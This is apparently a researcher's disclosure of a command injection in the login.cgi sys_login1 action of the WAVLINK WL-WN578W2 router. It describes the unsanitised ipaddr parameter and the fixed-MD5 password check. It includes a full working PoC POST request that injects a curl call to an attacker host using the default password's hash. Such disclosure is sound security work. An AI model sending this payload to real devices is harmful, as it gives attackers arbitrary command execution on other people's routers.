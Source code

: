 # WAVLINK WL-WN578W2 M78W2\_V221110 Command Injection (sys\_login1 Action in login.cgi)

PS:



1.  QEMU simulation is difficult; use a physical WAVLINK WL-WN578W2 for testing.

2.  Authenticated access required, but password uses fixed MD5 (no dynamic change). Attackers only need the password’s MD5 (e.g., default password) to reuse the exploit.

## Overview

A command injection vulnerability exists in the `sys_login1` action of `login.cgi` (WAVLINK WL-WN578W2, firmware M78W2\_V221110). The `ipaddr` parameter in `sub_401BA4` function (login.c) lacks sanitization and is directly concatenated into system commands. With `page=sys_login1` in POST requests to `/cgi-bin/login.cgi`, attackers with the password’s MD5 can inject arbitrary commands to control the device.



![Vulnerability Flow: sys\_login1 Action Logic](./imgs/1.png)

## Details



*   **Vendor**: WAVLINK

*   **Product**: WAVLINK WL-WN578W2

*   **Firmware**: M78W2\_V221110

*   **Affected Endpoint**: `/cgi-bin/login.cgi` (POST method, trigger via `page=sys_login1`)

*   **Vulnerable Code**: `ftext` function (request routing) & `sub_401BA4` function (core login logic) in login.c

*   **Vulnerability Type**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, fully control the device; exploit is reusable via fixed password MD5.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description



1.  **Request Routing**: The `ftext` function parses the `page=sys_login1` parameter from the request and calls the `sub_401BA4` function to process core logic.

2.  **Password Verification**: `sub_401BA4` uses the command `echo -n '%s' | md5sum` to verify the input password (fixed MD5 encryption logic, no dynamic changes).

3.  **Command Injection**: The `ipaddr` parameter is not sanitized and is directly used in system command concatenation. Attackers can use delimiters (e.g., `;`) to inject malicious commands.



![MD5 Verification Logic: Fixed Encryption Process](./imgs/2.png)



![Vulnerable Command Flow: ipaddr Parameter Usage](./imgs/3.png)

## Proof of Concept (PoC)

### PoC: Inject `curl` Command to Verify Execution

Requires the device password’s fixed MD5 (e.g., `e10adc3949ba59abbe56e057f20f883e` corresponds to the default password `123456`).

#### Full PoC HTTP Request



```
POST /cgi-bin/login.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 145
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

page=sys_login1&ipaddr=%3A%3Affff%3A192.168.10.154;curl http://192.168.10.154:1234#&key=M55373357&password=e10adc3949ba59abbe56e057f20f883e
```

#### PoC Execution Results



1.  **Fixed MD5 Generation**: Run the command `echo -n '123456' | md5sum` on a Linux terminal to generate the password hash, which matches the `password` parameter in the PoC.



![MD5 Generation: Command & Result](./imgs/4.png)



1.  **Successful Injection**: After sending the PoC request, the device executes the injected `curl` command, and the attacker’s server (192.168.10.154:1234) records the request, confirming command execution.

![Injection Success: Attacker Server Log](./imgs/5.png)


